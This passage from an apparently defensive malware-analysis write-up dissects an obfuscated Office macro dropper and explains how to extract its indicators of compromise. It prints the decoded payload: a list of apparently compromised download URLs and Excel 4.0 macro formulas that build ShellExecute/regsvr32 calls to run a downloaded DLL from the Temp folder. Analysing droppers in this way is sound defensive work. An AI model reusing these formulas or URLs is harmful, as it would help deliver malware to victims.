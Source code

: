 ```txt
/zhhjw8.zip$http://gavidia.ivpr.org/ws2x19x.zip$http://proyectos.ivpr.org/ntewb3.rar$http://lp.rigiad.org/r9b7toi38.rar$http://choicenz.blissgene.com/hez20gauw.zip$http://trypar.deve.pt/cd2vg1b.zip$http://carzone.deve.pt/s3zpciz99.rar$http://cristianadorin.ro/w7tlyfq.rar$http://syukur.seriesnow.top/bc5hlc.zip$http://phoebecorke.com/phoebecorke.com/Scripts/Widgets/Navbar//jhax4k.rar$http://rmp.skswebsites.com/zfkdoc.rar$http://crownmoversatlanta.com/k4acudk7b.zip$http://blifemm.com/shwebank4u.blifemm.com/report/wp-admin/js/widgets//ppodyg.zip$http://monitrade.net/h79fwesfe.rar$http://boomaxgolf.com/e7h7jt9.rar$http://bafnabrotherskesarwala.com/ys95lm6k.rar=SET.NAME("b0b",CHAR(101))]SET.NAME("i0","J")]SET.NAME("w000","\")]IF(ISNUMBER(SEARCH("do",GET.WORKSPACE(1))),`y112G`,CLOSE(FALSE))]SET.NAME("o0","32")]CANCEL.KEY(TRUE)]SET.NAME("w00",b0b)]CANCEL.KEY(TRUE)]SET.NAME("v0","O")]SET.NAME("ohgdfww","h"&w00&"llEx"&w00&"cut"&w00)]SET.NAME("wegb","Sh"&w00&"ll")]SET.NAME("bb",LEFT(GET.WORKSPACE(23),(FIND("Roaming",GET.WORKSPACE(23),1)-1))&"Local"&w000&"T"&b0b&"mp"&w000)]SET.VALUE(B2,bb)]SET.NAME("ab",LEFT(CHAR(RAND()*26+97)&CHAR(RAND()*26+97)&CHAR(RAND()*26+97)&CHAR(RAND()*26+97)&CHAR(RAND()*26+97)&CHAR(RAND()*26+97)&CHAR(RAND()*26+97)&CHAR(RAND()*26+97),RAND()*8+5)&".dll")]SET.VALUE(B2,ab)]CALL(wegb&o0,"S"&ohgdfww&"A",i0&i0&"CCCC"&i0,0,v0&"p"&w00&"n","r"&w00&"gsvr"&o0,"`y112G`-s`y112G`"&bb&ab,0,0)
```

The next major function call in the macro code focuses on splitting up URLs into array elements based on the preconfigured delimiters.  We can notice in the *Section 2* that URLs are combined with some more Excel formula junk that does other things. (It ends up running a Shell32 command to execute the eventually downloaded DLL but that's not our focus right now)  Clearly that isn't possible of running as is, so we look continue following execution.

```vb
govs = sb_t
Oa = 9: kij = Split(govs, "="): Ada = Split(kij(ol), redline(ellysio))
```
The code snippet above focuses on splitting based on the `=` character first, separating the URLs from the Excel formulas in *Section 2*.  Next it splits again on the same set of data, using the delimiter of '$' (return from the function below).

```vb
Function redline(yel As Integer)
redline = "$"
If yel = 2 Then redline = "]"
End Function
```

This gets a nice array of each URL nicely split from each other in *Section 2*.  It performs this split operation again on *Section 1*, and finally concatenates the data together.

Now, I've been following each one of these variables in the debugger window this whole time.  This allows me to see the final resulting list of URLs in plaintext and extract them nicely.  Only problem? Too big.

I was able to find out this nice trick to be able to view it but going to `View->Immediate Window` which opens up a debug window that I manually use to print out the variable value.

![Immediate Window Debug](/img/debug.png)

### Implementing in Python

A lot of malware campaigns will use similar schemes to the one above multiple times in different droppers, so an understanding how the code actually works is a valuable bit of information.  Even better is if we can somehow automate the process so if we happen to run across another sample utilizing the same schema, we can easily pull out the IOCs.
